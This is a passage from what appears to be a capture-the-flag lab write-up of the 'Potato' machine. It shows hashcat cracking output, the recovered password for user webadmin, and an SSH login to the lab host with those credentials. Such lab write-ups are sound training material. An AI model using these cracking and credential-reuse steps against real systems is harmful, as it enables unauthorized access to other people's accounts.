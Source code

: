 ```
Progress.........: 1024/3559 (28.77%)
Rejected.........: 0/1024 (0.00%)
Restore.Point....: 0/3559 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:750-1000
Candidate.Engine.: Device Generator
Candidates.#1....: #!comment: This list has been compiled by Solar Designer of Openwall Project -> pinkfloyd
Hardware.Mon.#1..: Temp: 64c Util: 13%

Started: Sat Apr  6 16:56:02 2024
Stopped: Sat Apr  6 16:56:21 2024
```

Pretty quickly we find that the password for user `webadmin` is `dragon`.

We try our new credentials against the ssh server:

```
┌──(scr1pt3r㉿pwnbox)-[~/go/src/github.com/adrianosela/road-to-oscp/write-ups/proving-grounds/linux/play/easy/2024-04-06-Potato/files]
└─$ ssh webadmin@potato
webadmin@potato's password: 
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-42-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat 06 Apr 2024 11:59:03 PM UTC

  System load:  0.0                Processes:               151
  Usage of /:   12.6% of 31.37GB   Users logged in:         0
  Memory usage: 28%                IPv4 address for ens192: 192.168.241.101
  Swap usage:   0%


118 updates can be installed immediately.
33 of these updates are security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

webadmin@serv:~$
```
